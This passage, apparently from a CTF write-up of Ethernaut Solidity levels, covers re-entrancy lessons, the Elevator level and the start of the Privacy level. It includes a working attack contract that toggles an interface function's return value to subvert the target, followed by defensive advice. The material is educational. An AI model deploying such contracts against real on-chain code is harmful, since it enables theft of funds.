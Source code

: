 Key learnings:
- Understanding re-entrancy mechanism
- Use modern contract frameworks (like OpenZeppelin's ReentrancyGuard) to implement secure reentry control

## 11. Elevator ✅ [Easy]

This level tests understanding of interface:
- Interface is an abstract contract in Solidity used to define contract function signatures without implementation code.
- Attackers can gain contract control by implementing interface but using function containing attack

Attack steps:
1. Main focus is writing attack contract implementing interface
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorAttack is Building {
    Elevator public target;
    bool public toggle;

    constructor(address _target) public {
        target = Elevator(_target);
    }

    function isLastFloor(uint) external override returns (bool) {
        toggle = !toggle; // Toggle return value
        return toggle;
    }

    function attack(uint _floor) public {
        target.goTo(_floor);
    }
}
```

Key learnings:
- Restrict interface callers: Verify if caller is trusted contract or specific address.
- Use require to check msg.sender
```solidity
require(msg.sender == trustedAddress, "Unauthorized caller");
```
- Logic verification: Avoid completely relying on external contract return values, add internal verification logic.

## 12. Privacy ✅ [Easy]

This level tests understanding of storage slots and data protection:
- Storage slots are spaces in Solidity used to store variables, each slot has unique index.
- Attackers can use storage slots to get contract's private data
